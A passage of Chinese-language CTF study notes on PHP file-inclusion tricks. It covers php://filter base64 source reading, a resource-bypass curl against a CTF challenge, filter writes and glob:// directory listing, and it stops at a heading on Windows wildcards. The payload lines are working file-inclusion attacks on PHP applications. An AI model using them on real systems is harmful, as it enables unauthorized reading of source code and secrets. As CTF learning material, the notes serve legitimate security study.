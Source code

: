 利用主要是利用了resource和vonvert，可以读取到php的代码

ctf 赛事中，url参数值出现很像文件名的情况下，很有可能是文件包含， 可利用 filter 协议读源码， 通常 flag 在 flag.php info.php phpinfo.php 这几个文件中，优先考虑

> php>=5.0

```
?url=php://filter/convert.base64-encode/resource=test.txt

# http
?url=php://filter/convert.base64-encode/resource=http://127.0.0.1/test/test.txt

# resource 绕过
$ curl ctf.sharif.edu:31455/chal/technews/634770c075a17b83/images.php?id=php://filter/resource=files/images/robot.jpg/resource=files/flag/flag.txt 
```

#### 5.3.1. 向磁盘写文件

`php://filter/write`, 一个过滤器或多个过滤器以管道符 | 分隔

```
<?php
/* 这会通过 rot13 过滤器筛选出字符 "Hello World" 然后写入当前目录下的example.txt */
file_put_contents("php://filter/write=string.rot13/resource=example.txt","Hello World");
?> 
```

*   glob

> php>5.3.0

```
DirectoryIterator(“glob://ext/spl/examples/*.php”) 
```

```
<?php
　　// 循环 ext/spl/examples/ 目录里所有 *.php 文件
　　// 并打印文件名和文件尺寸
　　$it = new DirectoryIterator("glob://E:\\wamp\\www\\test\\*.php");
　　foreach($it as $f)
　　{
　　　　printf("%s: %.1FK\n", $f->getFilename(), $f->getSize()/1024);
　　}
?> 
```

### 5.4. php://fd

> php >= 5.3.6

6\. windows 特性
--------------

### 6.1. 通配符 <<
